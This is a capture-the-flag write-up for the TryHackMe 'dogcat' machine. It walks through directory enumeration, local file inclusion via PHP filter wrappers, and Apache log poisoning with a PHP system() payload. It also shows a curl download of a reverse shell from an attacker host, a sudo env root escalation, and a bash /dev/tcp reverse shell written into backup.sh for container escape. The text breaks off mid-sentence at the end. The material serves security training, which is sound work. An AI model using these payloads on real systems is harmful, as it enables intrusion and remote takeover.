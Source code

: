 ```yaml
---
date: 2020-05-17
layout: post
title: "dogcat"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/dogcat/dogcat.png
optimized_image:
category: Tryhackme
tags: tryhackme,lfi
author:
paginate: false
---
```


Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.110.141
```
```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-18 22:13 IST
Nmap scan report for 10.10.184.233
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Not much of ports are open.Main target now port 80.

Running gobuster
```bash
gobuster dir -u http://10.10.110.141 -w wordlist
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/server-status (Status: 403)
/dog.php (Status: 200)
/dogs (Status: 301)
````
Requesting flag.php gives a blank page.
Clicking on any of the two buttons provided on home page of the website a image is accessed using the following url
```url
http://10.10.110.141/?view=dog[or cat] 
```
Tried local file inclusion through the view parameter.
```url
http://10.10.110.141/?view=../../../../../../../../../../etc/passwd
```

This failed as the server is attaching a .php at the end of the string provided in view.Moreover it also checks for dog or cat word in the string.

Used PHP Wrappers to get the code in flag.php.
```url
http://10.10.110.141/?view=php://filter/convert.base64-encode|read=dog/resource=flag
```
Here the filter php wrapper is used as we can use it to chain multiple filters.
The wrapper above asks the server to get flag.php(.php is appended automatically) convert it to base64(beacuse if it will give the code directly then code will get executed and we will get same page as requesting flag.php).Read filter does nothing here except letting dog or cat word in the string.

Accessing the above url we get a base64 encoded string which on decryption gives the code of flag.php
![placeholder](/writeup/assets/img/dogcat/flag1.php "flag1")

Through the same method index.php can be read.This tells that appending of .php can be stopped by using a *ext* parameter in url.
```php
#index.php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Now trying to get rce through log poisoning.
First we access any file on the server with User-Agent Header containing our malicious code.
This can be done via burpsuite or curl.
Using the following in user agent
```bash
**Payload="<?PHP echo system($_GET['y'])?>"**
```
![placeholder](/writeup/assets/img/dogcat/burp.png "burp")

Now accessing the access.log file on the system which logs all the files being requested with the user-agent which is accessing.
So this way when access.log is fetched by the server,the php code feeded in through user-agent gets executed.

So now any code can be executed thorough the y parameter in url

```url
http://10.10.110.141/view=cats/../../../../../../../../../../var/log/apache2/access.log&ext=&y=[command] 
```

If **whoami** is passed in y then following response is recieved
![placeholder](/writeup/assets/img/dogcat/rce.png "rce")

Better shell can be acquired by uploading any php reverse shell thorugh the y parameter.

Since many commands like wget python are not present on the machine;curl can be used to upload the reverse shell.
```url
http://10.10.110.141/?view=dog/../../../../../../../../../../../../../var/log/apache2/access.log&ext=&y=curl%20http://10.9.12.192/phpshell.php%20-o%20shell.php
```
The shell used here is pentestmonkney reverse shell.

Now accessing the shell.php gives a reverse shell.
![placeholder](/writeup/assets/img/dogcat/shell.png "shell")

Second flag is present in /var/www.

**sudo -l** shows
![placeholder](/writeup/assets/img/dogcat/sudo.png "sudo")

Time for GTFObins.
Got the command from GTFObins that will give a root shell through env command.
**sudo env /bin/sh**

Got root shell and the third flag(Inside /root directory).

Running the hostname command gives a non-meaningfull string which tells that we may be still inside a container rather that the machine itself.

Enumerating through the machine , got a backup.sh file inside /opt/backup. This seems to be a script main host machine is using to create bacckup.So maybe it is runnning at some interval of time.
Edited the script to get a reverse shell.
Put a one liner reverse shell in the script
```bash
echo "#!/bin/bash" > backup.sh
echo "bash -c 'bash -i >& /dev/tcp/10.9.12.192/7777 0>&1'" >> backup.sh
```

This gave a shell on the host machine.
![placeholder](/writeup/assets/img/dogcat/host.png "host")
Found fourth flag(Inside /root/)


Got the 

